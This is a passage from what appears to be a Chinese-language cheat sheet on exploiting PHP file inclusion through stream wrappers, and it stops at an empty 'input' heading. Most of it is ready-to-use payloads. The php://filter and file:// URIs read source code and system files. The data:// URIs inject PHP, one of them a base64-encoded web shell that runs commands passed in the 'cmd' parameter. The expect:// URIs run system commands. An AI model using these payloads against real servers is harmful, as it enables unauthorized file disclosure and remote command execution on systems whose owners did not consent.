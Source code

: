 php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用；在文件包含中用于读取文件内容，读取后输出base64编码后的内容，要获取真实内容的话，需要进行base64解码

```
?file=php://filter/read=convert.base64-encode/resource=index.php
?file=php://filter/convert.base64-encode/resource=../sss.php
```




## file

利用file协议执行任意文件读取：

```
?file=file://C:/windows/win.ini
```



## data

通过data协议可以直接执行命令，利用条件：

```
php > 5.2
allow_url_fopen=On && allow_url_include=On
```

paylaod：

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```



## expect

使用expect协议可以直接执行系统命令

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```



## input
